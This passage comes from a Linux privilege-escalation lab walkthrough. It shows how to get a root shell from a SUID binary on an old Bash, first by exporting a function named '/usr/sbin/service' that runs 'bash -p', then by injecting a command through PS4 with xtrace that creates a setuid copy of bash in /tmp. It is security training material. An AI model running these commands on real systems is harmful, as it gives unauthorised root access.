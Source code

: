```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

## 15. SUID / SGID Executables - Abusing Shell Features (#2)

Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.

Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```bash
/tmp/rootbash -p
```

Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```bash
rm /tmp/rootbash
exit
```

## 16. Passwords & Keys - History Files
